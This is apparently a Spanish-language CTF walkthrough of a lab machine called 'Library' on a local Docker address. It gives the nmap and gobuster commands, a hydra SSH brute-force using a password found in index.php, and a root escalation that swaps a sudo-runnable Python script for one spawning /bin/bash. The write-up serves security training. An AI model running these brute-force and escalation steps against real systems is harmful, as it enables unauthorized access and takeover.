# MÁQUINA LIBRARY

Lo primero que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Library/foto.jpg)

Están abiertos tanto el puerto 22 como el 80, así que vamos a ver el contenido de la página web:

![WEB](https://github.com/Isma-yo/photos/blob/main/Library/foto2.jpg)

Es la página por defecto de Apache, ni en el código fuente ni en la página principal hay algo importante, por lo que vamos a proceder a hacer fuzzing web:

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

![FUZZ](https://github.com/Isma-yo/photos/blob/main/Library/foto3.jpg)

Hay un index.php que puede ser interesante, veamos que hay en el:

![PASSS](https://github.com/Isma-yo/photos/blob/main/Library/foto4.jpg)

Obtenemos una posible contraseña, el siguiente paso será ver si podemos obtener el usuario que esta utilizando esa contraseña con un ataque de fuerza bruta:

```shell
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```

![USR](https://github.com/Isma-yo/photos/blob/main/Library/foto5.jpg)

Y vemos que encuentra un usuario carlos, por lo que vamos a acceder a la máquina usando esas credenciales:

![SSH](https://github.com/Isma-yo/photos/blob/main/Library/foto6.jpg)

Si ejecutamos el comando sudo -l observamos que podemos ejecutar un script en python como cualquier usuario y sin contraseña. Si intentamos modificar ese script para obtener una escalada de privilegios vemos que no tenemos permisos, así que lo que haremos será borrarlo y crear el nuestro con el mismo nombre:

```shell
import os

os.system('/bin/bash')
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/Library/foto7.jpg)

Y ya somos root!




